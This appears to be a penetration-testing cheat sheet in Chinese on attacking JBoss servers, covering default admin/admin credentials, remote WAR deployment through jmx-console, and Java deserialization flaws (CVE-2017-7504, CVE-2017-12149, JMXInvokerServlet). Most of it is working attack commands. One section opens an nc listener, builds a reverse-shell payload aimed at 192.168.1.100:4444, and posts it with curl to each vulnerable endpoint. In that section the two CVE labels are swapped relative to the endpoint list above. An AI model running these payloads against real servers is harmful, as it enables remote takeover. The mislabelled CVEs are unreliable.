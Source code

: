 - Jboss：弱口令、反序列化，远程命令执行【jexboss工具】

  - ```
    jmx-console部署远程war
    http://127.0.0.1:8080/jmx-console/

    admin-console部署本地war：高版本
    http://127.0.0.1:8080/admin-console/login.seam

    CVE-2017-7504：JBoss 4.x JBossMQ JMS 反序列化漏洞
    http://127.0.0.1:8080/jbossmq-httpil/HTTPServerILServlet

    CVE-2017-12149：JBoss 5.x/6.x 反序列化漏洞
    http://127.0.0.1:8080/invoker/readonly

    JMXInvokerServlet：JBoss JMXInvokerServlet 反序列化漏洞
    http://127.0.0.1:8080/invoker/JMXInvokerServlet
    ```


  - ```
    jmx-console部署远程war：

    root@a6604b421882:/opt/jboss/jboss4/server/default/conf/props# cat jmx-console-roles.properties 
    # A sample roles.properties file for use with the UsersRolesLoginModule
    admin=JBossAdmin,HttpInvoker

    root@a6604b421882:/opt/jboss/jboss4/server/default/conf/props# cat jmx-console-users.properties 
    # A sample users.properties file for use with the UsersRolesLoginModule
    admin=admin

    http://127.0.0.1:8080/jmx-console

    jboss.deployment【flavor=URL,type=DeploymentScanner】-->void addURL()【java.lang.String】部署远程war-->invoke

    1.开启jmx-console密码认证
    2.删除jmx-console.war
    ```


  - ```
    本地监听：
    nc -l -vv 4444

    JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）：
    [Go0s]: ~/Desktop/JavaDeserH2HC ✗ master*
    ➜  javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
    [Go0s]: ~/Desktop/JavaDeserH2HC ✗ master*
    ➜  java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap 192.168.1.100:4444
    Saving serialized object in ReverseShellCommonsCollectionsHashMap.ser
    [Go0s]: ~/Desktop/JavaDeserH2HC ✗ master*
    ➜  curl http://127.0.0.1:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser

    JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）：
    [Go0s]: ~/Desktop/JavaDeserH2HC ✗ master*
    ➜  curl http://127.0.0.1:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser

    JBoss JMXInvokerServlet 反序列化漏洞：
    [Go0s]: ~/Desktop/JavaDeserH2HC ✗ master*
    ➜  curl http://127.0.0.1:8080/invoker/JMXInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser
    ```

    ​